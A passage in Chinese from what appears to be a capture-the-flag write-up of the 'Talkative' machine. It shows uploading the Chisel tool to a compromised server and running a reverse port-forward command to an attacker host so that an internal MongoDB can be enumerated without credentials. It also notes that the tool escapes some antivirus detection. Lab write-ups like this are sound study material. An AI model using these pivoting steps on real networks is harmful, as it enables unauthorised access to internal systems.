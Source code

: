 工具推荐：  
Chisel 可用来搭建内网隧道，类似于常用的 frp 和 nps 之类的工具。由于目前使用的人比较少，因此对于有些杀软还不能准确的识别出该工具。chisel 可以进行端口转发、反向端口转发以及 Socks 流量代理，使用 go 语言编写，支持多个平台使用，是进行内网穿透的一个鲜为人知的好工具。  
Talkative 服务器 上没有安装连接到 Mongo 的工具。  
上传 Chisel 并创建一个隧道。在我的网络服务器上托管它后，我将获取它：

[![](assets/1701678355-ee9a80403e746ace525ee6a1c4c91f5c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130211148-05230cec-8f82-1.png)

从 chisel 主机上的服务器开始：

[![](assets/1701678355-59268a560c264e906669242f4b70de47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130211154-08b082cc-8f82-1.png)

./chisel\_1.7.7\_linux\_amd64 client 10.10.14.2:8000 R:27017:172.17.0.2:27017  
将使用端口 8000，因为 Burp 使用默认端口 8080。我还将给出--reverse 标志，表示我希望客户端能够打开我主机上的端口。

## 枚举数据库

我将与 mongo( apt install mongodb-clients) 连接：  
默认情况下，它将使用 localhost 端口 27017，这是我的 Chisel 监听端口，所以它可以工作。它似乎不需要信用

[![](assets/1701678355-05a6876d8d9dc552a4a77c6861208b19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130211205-0f092aac-8f82-1.png)
